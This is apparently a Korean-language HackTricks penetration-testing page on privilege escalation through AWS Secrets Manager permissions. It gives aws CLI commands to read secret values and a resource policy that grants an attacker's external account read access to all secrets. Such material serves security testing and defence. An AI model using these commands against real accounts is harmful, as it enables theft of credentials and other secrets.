 # AWS - Secrets Manager Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

Secrets Manager에 대한 자세한 정보는 다음을 확인하세요:

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### `secretsmanager:GetSecretValue`

이 권한을 가진 공격자는 AWS **Secretsmanager**에 있는 **비밀 내부의 저장된 값**을 가져올 수 있습니다.
```bash
aws secretsmanager get-secret-value --secret-id <secret_name> # Get value
```
**Potential Impact:** AWS secrets manager service 내부의 고도로 민감한 데이터에 접근할 수 있음.

> [!WARNING]
> 주의: `secretsmanager:BatchGetSecretValue` 권한만으로는 민감한 secrets를 가져오기 위해 공격자는 `secretsmanager:GetSecretValue` 권한도 필요합니다.

### `secretsmanager:GetResourcePolicy`, `secretsmanager:PutResourcePolicy`, (`secretsmanager:ListSecrets`)

앞서 언급한 권한만으로는 다른 principal/계정(심지어 외부 계정)에 **접근 권한을 부여**하여 **secret**에 접근할 수 있게 할 수 있습니다. 단, KMS key로 암호화된 **secrets를 읽기 위해서는**, 사용자에게 해당 **KMS key에 대한 액세스 권한**도 필요합니다 (자세한 내용은 [KMS Enum page](../aws-services/aws-kms-enum.md) 참조).
```bash
aws secretsmanager list-secrets
aws secretsmanager get-resource-policy --secret-id <secret_name>
aws secretsmanager put-resource-policy --secret-id <secret_name> --resource-policy file:///tmp/policy.json
```
policy.json:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<attackers_account>:root"
},
"Action": "secretsmanager:GetSecretValue",
"Resource": "*"
}
]
}
```
{{#include ../../../banners/hacktricks-training.md}}
